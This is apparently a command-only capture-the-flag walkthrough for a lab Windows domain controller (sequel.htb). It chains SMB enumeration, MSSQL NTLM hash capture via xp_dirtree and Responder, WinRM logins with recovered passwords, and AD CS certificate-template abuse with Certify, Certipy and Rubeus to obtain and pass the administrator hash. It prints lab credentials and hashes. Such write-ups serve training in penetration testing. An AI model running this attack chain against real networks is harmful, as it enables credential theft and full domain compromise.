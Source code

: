 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.202
dc.sequel.htb
```
![image](https://github.com/user-attachments/assets/9263ebf5-8f7b-407d-baa3-e3a46e8540af)

```
smbclient -L \\\\10.10.11.202\\
smbclient \\\\10.10.11.202\\Public
```
![image](https://github.com/user-attachments/assets/f31422ee-e143-4d2a-bef8-505127c28203)

```
python3 -m http.server 80
http://10.10.14.6/SQL%20Server%20Procedures.pdf
PublicUser | GuestUserCantWrite1
```
![image](https://github.com/user-attachments/assets/dd949602-8c3c-435d-b04e-0dc1ecb8d7ff)

```
./kerbrute_linux_amd64 userenum --dc 10.10.11.202 -d sequel.htb users_0
```
![image](https://github.com/user-attachments/assets/53c9d8de-3ef7-4c76-a88d-b3c09f6caa53)

```
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
```
![image](https://github.com/user-attachments/assets/c4f31852-f910-4641-a631-8489f6023ac7)

```
responder -I tun0 -v
EXEC MASTER.sys.xp_dirtree '\\10.10.14.6\test', 1, 1
REGGIE1234ronnie (sql_svc)
```
![image](https://github.com/user-attachments/assets/bb0b8250-4cd0-463a-8fd9-0bd1882b66c2)

![image](https://github.com/user-attachments/assets/eabb3ae2-1343-47d2-8742-7f235c1acd67)

```
crackmapexec winrm 10.10.11.202 -u users_3 -p REGGIE1234ronnie --continue-on-success
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
![image](https://github.com/user-attachments/assets/a62a4cdd-c228-493f-8bde-caa93695ebca)

![image](https://github.com/user-attachments/assets/78b2d28d-f869-4b04-8b55-2ec48b8db114)

```
upload winPEASany.exe
./winPEASany.exe
```
![image](https://github.com/user-attachments/assets/170c7e63-ac22-43db-896d-fae7a896190b)

```
type C:\sqlserver\Logs\ERRORLOG.bak
```
![image](https://github.com/user-attachments/assets/53099c6d-e9cb-4d4a-8606-fa52dea217f3)

![image](https://github.com/user-attachments/assets/cd62b77f-eaad-4fbc-9e40-d95f595cb14e)

```
crackmapexec winrm 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/bb11ad81-6b7a-4469-a77a-b9f5db898f5a)

```
evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/95b9055c-951e-4a11-855b-ee410f182df7)

```
Download Certify.exe https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any
upload Certify.exe
.\Certify.exe find /vulnerable /currentuser
```
![image](https://github.com/user-attachments/assets/291c9e18-5898-42e1-af69-1827741ff159)

![image](https://github.com/user-attachments/assets/982539d6-95a6-4b91-8d6a-9c1b6c695ca4)

```
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```
![image](https://github.com/user-attachments/assets/2a436b62-2ab5-48d8-94f7-4b6af84b6493)

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter no password
```
![image](https://github.com/user-attachments/assets/0bde621d-fe4b-493d-9f38-3ece278b7e9b)

```
upload cert.pfx
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx
```
![image](https://github.com/user-attachments/assets/6a4ab877-c5ea-4fef-9ce5-4da8f5eee66a)

```
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```
![image](https://github.com/user-attachments/assets/39fbe789-1258-426c-ae50-07de66d154c6)


```
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```
![image](https://github.com/user-attachments/assets/9a786f1d-7388-4793-9eb6-318c435f64df)

# OR
```
git clone https://github.com/ly4k/Certipy.git
python3 setup.py install
Certipy
```
![image](https://github.com/user-attachments/assets/1bf7e649-bcca-4ca8-9648-5670bfe5b0ed)

```
certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target 10.10.11.202 -template UserAuthentication -upn Administrator@sequel.htb -dns dc.sequel.htb -debug
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/801fdd01-029e-4076-b95c-ae91c65661a7)

```
sudo service virtualbox-guest-utils stop
sudo ntpdate -s 10.10.11.202
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/1327812c-7770-4ad0-bddf-bf280b2d149d)

```
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```
![image](https://github.com/user-attachments/assets/2f8c2ee8-2536-4e1f-87dc-2628f7ee26e2)
